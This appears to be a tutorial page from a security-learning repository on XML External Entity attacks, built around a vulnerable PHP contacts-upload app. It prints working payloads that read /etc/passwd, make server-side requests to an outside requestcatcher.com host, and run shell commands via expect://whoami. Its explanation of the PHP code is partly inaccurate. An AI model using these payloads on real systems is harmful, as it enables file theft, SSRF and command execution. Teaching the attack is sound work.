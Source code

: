 # XML external entities (XXE)
An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.

## Severity

High

## Impact

Defining custom entities by the attacker which leads to performing malicious actions

### Examples

  * Disclosure of confidential data
  * Denial of service
  * Server side request forgery
  * Internal port scanning
  * [Command injection](Command_injection.md)

# How it works?

we will demonstrate a simple example from a web app that lets you upload your contacts in XML format.

## let's see our back-end code:

[file.php](file.php)

## Walkthrough

In this scenario the user should upload the XML file containing his contact info and the application is going to parse it and show `name : number` pairs.

![](xxewalk.png)

The uploaded XML file in this screenshot is this one :
```xml
<contacts>
<name>3la2</name>
<num>123456</num>
<name>amgad</name>
<num>456789</num>
</contacts>
```

## Exploitation

The attacker can manipulate this XML parser because it's configured in a bad way which allows external entities declaration .
An example file which an attacker can use in this case to read internal files from the server is this one :
```XML
<?xml version="1.0"?><!DOCTYPE contacts[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<contacts>
<name>&foo;</name>
<num>123456</num>
<name>amgad</name>
<num>456789</num>
</contacts>
```
When the attacker uploads this file the content of `/etc/passwd` will be considered the name of the number 123456 owner and get printed into the application HTML .

![](xxe.png)

### Code breakdown

In this vulnerable code :
```php
<?php
#reading file
$myfile = fopen($target_file, "r") or die("Unable to open file!");
$xml= fread($myfile,filesize($target_file));

#parsing XML
$doc = simplexml_load_string($xml);
$oldValue = libxml_disable_entity_loader(true); #enabling external entities
$doc = simplexml_load_string($xml);
libxml_disable_entity_loader($oldValue);

#returning parsed data
$doc = simplexml_load_string($xml, null, LIBXML_NOENT);
?>
```
The developer enabled external entities declaration on lines 8 and 10 which gave the ability of getting values from outside the XML files and user it as entities .

### Payload breakdown

the payload is :
```XML
<?xml version="1.0"?><!DOCTYPE contacts[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<contacts>
<name>&foo;</name>
<num>123456</num>
<name>amgad</name>
<num>456789</num>
</contacts>
```
* 1st part : ``` <?xml version="1.0"?>```
Declaring used XML version .

* 2nd part : ``` <!DOCTYPE contacts[ ``` Defining that the root element of the document is `contacts` .

* 3rd part : ```<!ENTITY foo``` Declaring an entity called `foo` .

* 4th part : ```SYSTEM "file:///etc/passwd"``` The `system` command is used to declare external entities (from outside the xml document) and it takes a URL as its input .

* 5th part : ```<name>&foo;</name>``` Calling the pre-defined entity which has the content of `/etc/passwd` .

## Further Exploitation

_1. Denial of service (DOS) :_
If the application doesn't return any data back to the user you can still check for XXE by calling `/dev/random` filestream, that'll cause the page to keep loading without stopping. On some server this may cause DOS .

_2. Server side request forgery (SSRF) :_ The attacker can achieve SSRF by making the input to `system` command an external URL, for example :
  ```XML
  <?xml version="1.0"?><!DOCTYPE contacts[<!ENTITY foo SYSTEM "http://root3la2.requestcatcher.com/test">]>
  <contacts>
  <name>&foo;</name>
  <num>123456</num>
  <name>amgad</name>
  <num>456789</num>
  </contacts>
  ```
  You can check it by visiting this URL : `http://root3la2.requestcatcher.com/` .

_3. Internal port scanning :_
The attacker can scan internal network by making a script that requests `internalIP:port` instead of external IP in the previous example, this may lead to taking over the server machine or any other machine on the server network .

_4. Command injection :_ If we are lucky enough and the PHP "expect" module is loaded we can execute shell commands directly using a payload like this :

```XML
<?xml version="1.0"?><!DOCTYPE contacts[<!ENTITY foo SYSTEM "expect://whoami">]>
<contacts>
<name>&foo;</name>
<num>123456</num>
<name>amgad</name>
<num>456789</num>
</contacts>
```
